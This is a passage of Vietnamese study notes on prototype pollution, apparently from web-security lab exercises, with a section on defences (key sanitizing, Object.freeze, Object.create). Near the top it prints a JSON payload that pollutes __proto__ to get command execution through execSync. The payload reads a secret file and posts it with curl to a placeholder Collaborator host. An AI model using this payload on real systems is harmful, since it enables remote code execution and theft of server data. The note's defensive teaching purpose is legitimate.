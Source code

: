 ![](./img_PP/Screenshot%202023-07-03%20085859.png)

> `Remote code execution via child_process.execSync()`

```javascript
"__proto__": {
    "shell":"vim",
    "input":":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

## **Preventing prototype pollution vulnerabilities**

- `Sanitizing property keys:`
  - Một trong những cách rõ ràng hơn để ngăn chặn các lỗ hổng gây ô nhiễm nguyên mẫu là làm sạch các khóa thuộc tính trước khi hợp nhất chúng vào các đối tượng hiện có. Bằng cách này, bạn có thể ngăn kẻ tấn công tiêm các khóa như `__proto__`, tham chiếu nguyên mẫu của đối tượng.

  - Sử dụng danh sách cho phép các khóa được phép là cách hiệu quả nhất để thực hiện việc này. Tuy nhiên, vì điều này không khả thi trong nhiều trường hợp, nên thay vào đó, người ta thường sử dụng danh sách chặn, xóa mọi chuỗi nguy hiểm tiềm ẩn khỏi đầu vào của người dùng.
- `Preventing changes to prototype objects:`
  - Một cách tiếp cận mạnh mẽ hơn để ngăn chặn các lỗ hổng gây ô nhiễm nguyên mẫu là ngăn không cho các đối tượng nguyên mẫu bị thay đổi.

  - Gọi phương thức Object.freeze() trên một đối tượng đảm bảo rằng các thuộc tính và giá trị của chúng không thể sửa đổi được nữa và không thể thêm thuộc tính mới nào. Vì các nguyên mẫu chỉ là các đối tượng, bạn có thể sử dụng phương pháp này để chủ động cắt bỏ mọi nguồn tiềm năng:

  - Object.freeze(Object.prototype);
    Phương thức Object.seal() cũng tương tự, nhưng vẫn cho phép thay đổi giá trị của các thuộc tính hiện có. Đây có thể là một thỏa hiệp tốt nếu bạn không thể sử dụng Object.freeze() vì bất kỳ lý do gì.

- `Preventing an object from inheriting properties:`

  - Theo mặc định, tất cả các đối tượng kế thừa từ Object.prototype toàn cầu trực tiếp hoặc gián tiếp thông qua chuỗi nguyên mẫu. Tuy nhiên, bạn cũng có thể đặt nguyên mẫu của một đối tượng theo cách thủ công bằng cách tạo nó bằng phương thức Object.create(). Điều này không chỉ cho phép bạn chỉ định bất kỳ đối tượng nào bạn thích làm nguyên mẫu của đối tượng mới, mà bạn còn có thể tạo đối tượng với nguyên mẫu rỗng, đảm bảo rằng đối tượng đó sẽ không kế thừa bất kỳ thuộc tính nào.
